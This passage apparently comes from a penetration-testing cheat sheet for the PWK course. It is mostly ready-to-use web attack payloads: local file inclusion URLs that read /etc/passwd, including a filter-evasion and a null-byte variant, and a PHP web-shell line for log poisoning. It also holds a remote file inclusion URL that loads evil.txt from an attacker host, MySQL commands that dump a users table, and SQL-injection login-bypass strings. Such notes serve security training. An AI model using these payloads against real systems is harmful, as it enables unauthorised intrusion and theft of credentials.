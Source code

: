     - LFI - Download passwords file

*http://$ip/index.php?page=/etc/passwd*
*http://$ip/index.php?file=../../../../etc/passwd*

    - LFI - Download passwords file with filter evasion

*http://$ip/index.php?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd*

    - Local File Inclusion - In versions of PHP below 5.3 we can terminate with null byte

GET /addguestbook.php?name=Haxor&comment=Merci!&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00

    - Contaminating Log Files <?php echo shell_exec($_GET['cmd']);?>
    - For a Remote File Inclusion look for php code that is not sanitized and passed to the PHP include function and the php.ini file must be configured to allow remote files /etc/php5/cgi/php.ini - “allow_url_fopen” and “allow_url_include both set to “on”

include($_REQUEST["file"].".php");

    - Remote File Inclusion

[http://$ip/addguestbook.php?name=a&comment=b&LANG=http://$localip/evil.txt](http://192.168.11.35/addguestbook.php?name=a&comment=b&LANG=http://192.168.10.5/evil.txt)

<?php echo shell_exec("ipconfig");?>
-

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='77'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='2450' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/m0chan/pwk-cheatsheet#database-vulnerabilities)Database Vulnerabilities

    - MySQL SQL
    - Grab password hashes from a web application mysql database called “Users” - once you have the MySQL root username and password

mysql -u root -p -h $ip
use "Users"
show tables;
select * from users;

    - Authentication Bypass

name='wronguser' or 1=1;#
name='wronguser' or 1=1 LIMIT 1;#

